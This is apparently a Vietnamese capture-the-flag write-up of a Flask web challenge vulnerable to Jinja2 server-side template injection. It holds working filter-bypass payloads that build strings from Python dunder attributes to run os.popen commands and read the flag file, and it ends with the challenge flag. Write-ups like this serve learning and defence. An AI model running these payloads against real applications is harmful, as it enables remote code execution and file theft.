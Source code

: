 # EHC Hair Salon 
> IP: [Tommy Xiaomi](http://103.245.249.76:49168/).

> Đây là một bài cực khó đối với mình vì tất cả kiến thức là hoàn toàn mới, nhưng bằng một cách may mắn, mình đã vượt qua. 

# Source code and analysis

## Source
Bắt đầu vào bài có 1 link hiện ra trang web và 1 link tải [source code](https://github.com/M4rv3l-M3tavers3/FPTUHACKINGCTF2022-/blob/main/Web/EHC%20Hair%20Salon/app.py) Flask của web

![image](https://user-images.githubusercontent.com/93731698/176366025-f781f9bb-ec6f-4da2-a1fe-e88c364f256f.png)




## Analysis
- Dễ dàng nhận ra có `render_template_string()` nên đoán đây là [SSTI](https://portswigger.net/research/server-side-template-injection).
```python 
  page = \
            '''
        {{% extends "layout.html" %}}
        {{% block body %}}
        <center>
           <section class="section">
              <div class="container">
                 <h1 class="title">Dậy đi ông cháu ơi, cắt xong rồi nhé!</h1>
                 <ul class=flashes>
                    <label>Ông cháu có quả đầu {} thanh toán tiền cho chú nào <3</label>
                 </ul>
                 </br>
              </div>
           </section>
           <iframe width="560" height="315" src="https://v16m-webapp.tiktokcdn-us.com/2f678d478e2de26a048aaf4f3ed6d8bd/62b6f7f3/video/tos/useast2a/tos-useast2a-pve-0037-aiso/dd6e434a38e4447e83f61a684c31583b/?a=1988&ch=0&cr=0&dr=0&lr=tiktok&cd=0%7C0%7C0%7C0&br=1302&bt=651&cs=0&ds=1&ft=ebtHKHk_Myq8Z4IeUwe2NsE~fl7Gb&mime_type=video_mp4&qs=0&rc=ZThoZWk7Zzw3PGQ1NmVnM0BpM3VsZWg6ZjhzZDMzZjgzM0AzLjIyYC8tX2AxYGFhMjVhYSNnMS9kcjQwMC1gLS1kL2Nzcw%3D%3D&l=202206250556040100040040250040050060030180F0D3C2C" frameborder="0" allowfullscreen></iframe>
      </iframe>
        </center>
        {{% endblock %}}
        '''.format(hair_type)

    elif request.method == 'GET':
        page = \
            '''
        {% extends "layout.html" %}
        {% block body %}
        <center>
            <section class="section">
              <div class="container">
                 <h1 class="title">Chào mừng đến với <a href="https://www.facebook.com/ehc.fptu">EHC Hair Salon</a>, hôm nay ông cháu này muốn cắt quả đầu nào nhể?</h1>
                 <p>Nhập tên quả đầu mà ông cháu muốn cắt nha!</p>
                 <form action='/' method='POST' align='center'>
                    <p><input name='hair' style='text-align: center;' type='text' placeholder='Tommy Xiaomi' /></p>
                    <p><input value='Submit' style='text-align: center;' type='submit' /></p>
                 </form>
              </div>
           </section>
        </center>
        {% endblock %}
        '''
    return render_template_string(page)
```
- Nhưng vì đã bị chặn khá nhiều filter đặc biệt là string và number nên chắc phải inject từ một input nào đó.
```python
regex = "request|config|self|class|flag|0|1|2|3|4|5|6|7|8|9|\"|\'|\\|\~|\%|\#"

error_page = '''
        {% extends "layout.html" %}
        {% block body %}
        <center>
           <section class="section">
              <div class="container">
                 <h1 class="title">Ông cháu à!</h1>
                 <p>Ông chú chỉ cắt được quả đầu Tommy Xiaomi thôi!</p>
              </div>
           </section>
        </center>
        {% endblock %}
        '''
 ```
- Vì bình thường có thể inject code python vào đây ví dụ như `{{7*7}}` sẽ render ra 49. Nhưng giờ thay vì nhập string và number trực tiếp, mình có thể dùng những thứ có sẵn của python đó là khi mình tìm được ra [Magic_or_Dunder_Method](https://www.tutorialsteacher.com/python/magic-methods-in-python#:~:text=Magic%20methods%20in%20Python%20are,class%20on%20a%20certain%20action).
- Và mình cũng nhận ra bài này có những kiến thức khá mới như `Server-side template injection with Jinja2`.
* Hiểu thêm về [Jinja](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#jinja2)

## Exploit

Chúng ta sẽ dùng những thứ có sẵn trong python(`Python Magic Methods`), Ex: 

 - `().__doc__` trả về doc của tuple "Built-in immutable sequence.\n\nIf no argument is given, the constructor returns an empty tuple.\nIf iterable is specified the   tuple is initialized from iterable's items.\n\nIf the argument is a tuple, the return value is the same object."
- `().__gt__.__name__` trả về "__gt__"
- `[].__len__()` trả về số phần tử của mảng rỗng là 0
- `[[]].__len__()` trả về 1

- Mình mò và thử inject payload kết hợp các syntax trên cùng với [os.popen().read()]((https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#exploit-the-ssti-by-calling-ospopenread) `{{cycler.__init__.__globals__.os.popen(().__doc__[[[],[],[]].__len__()]+().__str__.__name__[[[],[]].__len__()]).read()}}` thì bất ngờ tìm được một file có tên flag. 
![image](https://user-images.githubusercontent.com/93731698/176378969-5ab1a918-1531-439e-8554-6b3606e48724.png)

Tương tự đoạn code trên, mình viết 1 đoạn đoạn code trả về chữ `flag`
```cs
[].__doc__[-[].clear.__name__.__len__()]+\
[].__doc__[[].pop.__name__.__len__()]+\
().__doc__[-[].__getitem__.__name__.__len__()]+\
{}.__new__.__doc__[-[].__init__.__name__.__len__()]
```
- Cuối cùng mình dùng [read remote file] (https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#jinja2---read-remote-file) có inject với payload: `{{a.__init__.__globals__.__builtins__.open([].__doc__[-[].clear.__name__.__len__()]+[].__doc__[[].pop.__name__.__len__()]+().__doc__[-[].__getitem__.__name__.__len__()]+{}.__new__.__doc__[-[].__init__.__name__.__len__()]).read()}}`

Wait a minutes...

![image](https://user-images.githubusercontent.com/93731698/176383050-e709c9b5-1888-4c4c-ae5c-557f2f386787.png)

## Flag: `FPTUHacking{d4y_d1_0ng_ch4u_0i,ban_da_thoat_khoi_EHC_hair_salon_roi}`

